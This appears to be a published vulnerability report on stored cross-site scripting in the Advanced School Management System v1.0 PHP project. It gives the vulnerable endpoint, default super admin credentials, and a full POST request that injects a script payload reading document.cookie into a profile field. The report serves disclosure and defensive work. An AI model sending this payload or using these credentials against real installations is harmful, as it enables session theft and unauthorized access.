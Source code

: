 # Advanced School Management System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)

**Vul_Author**: **Congzhao Wen**

Login account: [suarez081119@gmail.com](mailto:suarez081119@gmail.com)/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/admin_profile.php#

Vulnerability location: /school/index.php

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an example with alert:

```sql
POST /school/index.php HTTP/1.1
Host: 10.10.10.134:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------168824386524487249392944698838
Content-Length: 1369
Origin: http://10.10.10.134:8000
DNT: 1
Connection: close
Referer: http://10.10.10.134:8000/school/view/admin_profile.php
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="fileToUpload"; filename=""
Content-Type: application/octet-stream


-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="full_name"

Angel Jude Suarez
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="i_name"

<script>alert(document.cookie)</script>
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="address"

Philippines
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="gender"

Male
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="email"

suarez081119@gmail.com
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="phone"

111-111-1114
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="password"

12345
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="id"

1
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="do"

update_admin_profile
-----------------------------168824386524487249392944698838--
https://github.com/wencongzhao/bug_report/blob/main/vendors/itsourcecode.com/advanced-school-management-system/xss.gif
```

![](https://github.com/wencongzhao/bug_report/blob/main/vendors/itsourcecode.com/advanced-school-management-system/xss.gif?raw=true)
